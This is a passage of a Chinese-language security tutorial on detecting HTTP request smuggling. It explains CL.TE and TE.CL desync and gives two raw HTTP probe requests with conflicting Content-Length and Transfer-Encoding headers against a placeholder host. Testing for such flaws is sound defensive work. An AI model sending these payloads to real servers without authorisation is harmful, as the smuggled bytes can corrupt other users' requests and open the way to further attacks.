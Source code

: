 **CL.TE漏洞检测**

如下，Front-End 使用 Content-Length，接收全部的请求体。Back-End使用Transfer-Encoding，第一个请求截止在 X 前。X分给第二个请求，导致后续的正常请求方法变为 `XPOST` 或 `XGET`等，导致第二个请求失败

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Transfer-Encoding: chunked

e
q=smuggling&x=
0

X
```

**TE.CL漏洞检测**

如下请求，若存在漏洞，Front-End传输全部的请求，Back-End取 Content-Length，剩余的 X 字符及之后的内容作为第二个请求部分。当用户正常访问，第二个请求为非法请求，导致请求失败。

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked

1
X
0


```

## 5.3 通过走私完整请求检测

可以走私一个完整请求，查看是否会获得两个响应。
